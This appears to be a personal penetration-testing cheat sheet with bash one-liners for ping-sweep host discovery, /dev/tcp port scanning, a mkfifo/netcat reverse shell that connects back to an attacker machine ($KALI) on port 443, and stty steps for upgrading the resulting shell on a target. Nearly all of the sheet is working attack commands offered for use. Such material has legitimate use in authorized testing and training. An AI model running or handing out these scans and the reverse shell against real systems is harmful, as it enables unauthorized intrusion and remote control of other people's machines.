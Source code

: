 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Network scanner
```bash - kali
#!/bin/bash

for i in `seq 1 255`; do ping -c 1 xxx.xxx.xxx.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```

```bash - kali
for i in {1..255}; do (ping -c 1 x.x.x.${i} | grep "bytes from" &); done
```

#### Port scanner
```bash - kali
#!/bin/bash

#./portscanner.sh -i xxx.xxx.xxx.xxx -p 

#Variables
empty=""
#Arguments for the script
while [ "$1" != "" ]; do
	case "$1" in
		-i | --ip )		ip="$2";	shift;;
		-p | --ports )		ports="$2";	shift;;
	esac
	shift
done
#Checking if the -i is empty
if [[ $ip == $empty ]]; then
	echo "Please specify an IP address with -i"
	exit
fi
#checking is -p is empty
if [[ $ports == $empty ]]; then
	echo "Please specify the max port range -p"
	exit
fi
#Scans ports/Dumps closed ports/displays open ports
for i in $(seq 1 $ports); do
	( echo > /dev/tcp/$ip/$i) > /dev/null 2>&1 && echo $ip":"$i "is open";
done
```

#### Another port scanner
```bash - kali
for i in {1..65535}; do (echo > /dev/tcp/$TARGET/$i) > /dev/null 2>&1 && echo $1 is open; done
```

#### Others
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```

```bash - target
EOF
```

#### STTY Terminal
```bash - target
CTRL+Z
```

```bash - kali
stty raw -echo
```

```bash - kali
stty size
```

```bash - kali
fg
```

```bash - target
export SHELL=bash
```

```bash - target
stty rows $x columns $y 
```

```bash - target
export TERM=xterm-256color
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

